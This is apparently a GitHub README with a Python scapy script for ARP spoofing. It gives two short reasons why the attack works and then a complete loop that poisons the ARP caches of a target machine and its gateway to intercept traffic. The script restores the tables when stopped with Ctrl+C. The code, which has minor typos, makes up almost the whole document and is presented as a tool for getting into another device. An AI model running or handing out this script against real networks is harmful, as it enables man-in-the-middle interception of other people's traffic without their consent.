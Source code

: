 # ARP Spoofing

## why ARP Spoofing is possible :
* 1) CLient accept responses even if they did not send a request.
* 2) Client trust response without any from of verification.

---

# this is the script that accsess you in another device
```
#!/usr/bin/env/ python

import scapy.all as scapy
import time
import sys

def get_mac(ip):
    arp_request = scapy.ARP(pdst=ip)
    broadcast = scapy.Ether(dst="ff:ff:ff:ff:ff:ff")
    arp_request_broadcast = broadcast/arp_request
    answered_List = scapy.srp(arp_request_broadcast, timeout = 1 , verbose=False)[0]

    return answered_List[0][1].hwsrc


def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    packet = scapy.ARP(op=2, pdst=target_ip, hwdst=target_mac, psrc=spoof_ip)
    scapy.send(packet, verbose =False)

def restore(destination_ip, source_ip):
    destination_mac = get_mac(destination_ip)
    source_mac = get_mac(source_ip)
    packet = scapy.ARP(opt=2, pdst=destination_ip, hwdst=destination_mac, psrc=source_ip, hwsrc=source_mac)
    scapy.send(packet, count=4,verbose=False)

target_ip = "10.0.2.15"
getway_ip = "10.0.2.1"


try:
    sent_packets_count = 0
    while True:
        spoof(target_ip, getway_ip)
        spoof(getway_ip, target_ip)
        sent_packets_count = sent_packets_count+2
        print("\r[+] Sent two packets " + str(sent_packets_count)),
        sys.stdout.flush()
        time.sleep(2)
except KeyboardInterrupt:
    print("[+] Detected CTRL + C ...... REsetting ARP tables ......Please wait.\n")
    restore(target_ip, getway_ip)
    restore(getway_ip, target_ip)
```